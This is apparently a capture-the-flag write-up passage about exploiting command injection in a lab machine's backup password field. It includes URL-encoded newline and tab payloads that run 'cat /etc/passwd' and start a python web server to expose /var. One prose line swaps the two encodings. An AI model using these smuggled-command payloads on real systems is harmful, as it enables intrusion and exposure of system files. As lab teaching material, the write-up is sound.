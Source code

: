 ```php
    sleep(2);
```
####
The entry is the passowrd `$password = cleanEntry($_POST['password']);`, so we can try to inject a malicious code into this entry because more under is this:
####
```ruby
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```
####
The backup is performed using a command into the target machine. The password entry is insert into the command as **param**, so in Linux you can inject other command inserting a `;` character. Following this approach, we need to achieve execute commands into the target machine.
####
<div class="img">
    <img src="/machines/public/nocturnal/5.png" loading="lazy" decoding="async" />
</div>

####
How the web site deleted the `;` and **spaces**, the execute additional command is imposible so far. But we could try to discover which other character comply with this approaching. I found other focus, to sustitute the **spaces** we can use a **tab**, this in **url-encode** is `%0A`, and for sustitute `;` we can use a **jump-line**, this in **url-encode** is `%09`.
####
| Characteres Param | Description |
| ----- | ----- |
| %0A | Url-encode jump-line |
| %09 | Url-encode tab |
####
In plain text look like this:
####
```ruby
[jump]
cat[tab]/etc/passwd
[jump]

;cat /etc/passwd;
```
####
In `view.php` file, we can se a `.db` file path:
####
```ruby
$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
```
####
But we don't now what is the complete path. So now we are able to execute commands in the target machine. Almost always the web services are hosted in `/var/www`, so we could try to expose that path in *HTTP* port to make *Directory Listing*.
####
```ruby
[jump]
cd[tab]/var
[jump]
python3[tab]-m[tab]http.server[tab]

;cd /var;python -m http.server;
```
####
The correct field password:
####
```ruby
password=%0Acd%09/var%0Apython3%09-m%09http.server%0A&backup=
```